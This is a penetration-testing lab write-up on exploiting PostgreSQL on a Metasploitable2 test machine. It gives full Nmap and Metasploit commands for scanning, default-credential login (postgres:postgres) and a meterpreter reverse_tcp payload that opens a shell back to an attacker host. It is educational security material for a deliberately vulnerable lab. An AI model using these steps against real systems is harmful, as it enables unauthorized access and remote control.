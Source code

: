 # Exploiting PostgreSQL Database Service

PostgreSQL is a powerful, open-source relational database system widely used in various applications and environments. Instances of PostgreSQL can often be vulnerable due to default configurations, weak credentials, or known software vulnerabilities, potentially allowing unauthorized access to sensitive data or even remote code execution.

In this lab, we will explore methods to exploit the PostgreSQL service running on the Metasploitable2 target machine. Our objective is to gain unauthorized access to the database, which may lead to data exfiltration or system compromise.

We will begin by verifying the service and version with Nmap, then proceed to enumerate its users/credentials or search for specific exploits in Metasploit to gain access.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the PostgreSQL database service on the target machine, which typically runs on port 5432.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 5432 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `5432` was open on `192.168.100.10`. The service running on this port was identified as **PostgreSQL**, along with its version number, 8.3.0-8.3.7.

    ![PostgreSQL Nmap Scan Result](images/PostgreSQL_Scan.png) 

### 2.2: Metasploit Exploit / Auxiliary Search (or Credential Guessing)

* **Objective:** Launch Metasploit and search for available modules (exploits or auxiliary modules) related to PostgreSQL, or attempt to guess default/common credentials.

* **Commands Executed:**
    ```bash
    msfconsole
    search postgres
    ```

* **Results:**
The search identified several PostgreSQL-related modules, including scanners and exploits. Given the objective of gaining database access, the auxiliary/scanner/postgres/postgres_login module was chosen to attempt authentication using common default credentials, as this is a frequent vulnerability on test systems.

![Metasploit Search/Login Attempt](images/PostgreSQL_Search_Login.png)

### 2.3: Configure and Execute the Exploit / Auxiliary Module

* **Objective:** Configure the chosen Metasploit module (exploit or auxiliary) to target `192.168.100.10` and proceed with the attack.

* **Commands Executed:**
Select the module:

    ```bash
   use auxiliary/scanner/postgres/postgres_login
   ```

Set the target host:

    ```bash
   set RHOSTS 192.168.100.10
    ```

Set the username to try (a common default):

    ```bash
   set USERNAME postgres
   ```

Set the password to try:

    ```bash
   set PASSWORD postgres
   ``` 
Show options to make sure and run it!

    ```bash
   show options
   run
    ```

* **Results:**
    The postgres_login module successfully authenticated to the PostgreSQL database using the default credentials postgres:postgres. The output Login Successful: postgres:postgres@template1 confirmed valid access.

    ![Exploit/Module Run Result](images/PostgreSQL_Exploit_Run.png)


### 2.4: Leveraging Authenticated Access for a Shell (PostgreSQL Payload)

* **Objective:** Utilize the obtained postgres:postgres credentials to execute a reverse shell payload on Metasploitable2 via the PostgreSQL service, aiming for a system shell.

* **Commands Executed:**
    ```bash
    use exploit/linux/postgres/postgres_payload
    set RHOSTS 192.168.100.10
    set PAYLOAD linux/x86/meterpreter/reverse_tcp  # Corrected payload
    set LHOST 192.168.100.5
    set LPORT 4445
    set USERNAME postgres
    set PASSWORD postgres
    show options
    exploit
    ```

* **Results:**
    Initially, the `cmd/unix/reverse` payload was attempted, but it was found to be incompatible with this specific exploit module, resulting in an "Exploit failed: cmd/unix/reverse is not a compatible payload" error. To resolve this, the `show payloads` command was used in Metasploit to list all compatible payloads for `exploit/linux/postgres/postgres_payload`.

    From the list of compatible payloads, `payload/linux/x86/meterpreter/reverse_tcp` was selected. This choice was based on the target system's architecture (Metasploitable2 is a 32-bit Linux system, indicated by `x86`) and the desire for a more robust and feature-rich Meterpreter session, which offers advanced post-exploitation capabilities compared to a basic command shell.

    Upon setting the correct payload and re-running the exploit, a Meterpreter session was successfully established:
   
    ![Exploit Run 2](images/Exploit_Payload.png) 